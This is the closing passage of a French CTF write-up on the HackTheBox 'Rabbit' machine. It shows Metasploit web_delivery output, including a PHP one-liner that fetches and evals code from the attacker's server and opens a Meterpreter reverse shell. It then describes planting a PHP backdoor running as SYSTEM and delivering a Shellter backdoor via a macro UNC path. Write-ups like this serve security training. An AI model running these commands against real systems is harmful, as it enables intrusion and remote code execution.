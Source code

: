 ```plain
msf exploit(multi/script/web_delivery) > exploit -j
[*] Exploit running as background job 4.

[*] Started reverse TCP handler on 10.10.14.20:1478 
[*] Using URL: http://10.10.14.20:8080/s4380f
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.10.14.20:8080/s4380f'));"
msf exploit(multi/script/web_delivery) > [*] 10.10.10.71      web_delivery - Delivering Payload
[*] Sending stage (37775 bytes) to 10.10.10.71
[*] Meterpreter session 1 opened (10.10.14.20:1478 -> 10.10.10.71:37732) at 2018-05-22 20:23:19 +0200
```

Final pwnage
------------

La dernière étape aura été la plus simple. Pour avoir déjà croisé WAMP dans un pentest je sais que [ce dernier fait tourner les scripts avec les droits SYSTEM](http://devloop.users.sourceforge.net/index.php?article128/tales-of-pentest-1-celui-qui-donnait-la-permission-file).  

![HackTheBox Rabbit php code running as SYSTEM](/assets/img/htb/rabbit_whoami_upload_joomla.png)

Dès lors il suffisait de placer une backdoor PHP sous la racine du Apache et on pouvait accéder au flag de l'administrateur.  

![HackTheBox Rabbit root flag](/assets/img/htb/rabbit_root_flag.png)

Autant vous dire que j'étais content que ce CTF soit enfin terminé :D Ça a été très fun de jouer avec les macros mais ça aurait été encore plus fun si l'expérience n'avait pas été aussi irritante (on se demande pourquoi autant de tentatives ont échouées alors qu'elles fonctionnait parfaitement en ayant recréé l’environnement en local).  

En jouant une nouvelle fois avec la machine plus tard j'ai vu que l'on pouvait tout simplement faire exécuter une backdoor générée via *Shellter* en appelant un chemin UNC dans la macro. Bien sûr le comportement du *Meterpreter* pouvait être détecté en fonction de l'action utilisée.

*Published August 18 2018 at 21:47*
